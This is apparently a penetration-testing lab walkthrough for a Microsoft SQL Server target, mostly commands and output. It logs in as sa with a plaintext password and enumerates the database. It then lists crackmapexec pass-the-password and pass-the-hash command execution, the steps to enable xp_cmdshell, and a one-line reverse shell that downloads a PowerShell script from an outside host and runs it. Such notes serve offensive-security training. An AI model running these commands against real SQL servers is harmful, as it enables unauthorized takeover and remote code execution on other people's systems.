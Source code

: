 usernames



# database log in 

mssqlclient.py sa:'MSSQLP@ssw0rd!'@10.10.11.51


username: dbo

SQL (sa  dbo@master)> select @@version;
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
	Sep 24 2019 13:48:23 
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)

SQL (sa  dbo@master)> SELECT * FROM master.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME              TABLE_TYPE   
-------------   ------------   ---------------------   ----------   
master          dbo            spt_fallback_db         b'BASE TABLE'   

master          dbo            spt_fallback_dev        b'BASE TABLE'   

master          dbo            spt_fallback_usg        b'BASE TABLE'   

master          dbo            spt_values              b'VIEW'      

master          dbo            spt_monitor             b'BASE TABLE'   

master          dbo            MSreplication_options   b'BASE TABLE'   


```sql
# Get databases
SELECT name FROM master.dbo.sysdatabases;
```


 
# EXECUTING SHELL COMMANDS INSIDE MS-SQL


bash

```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```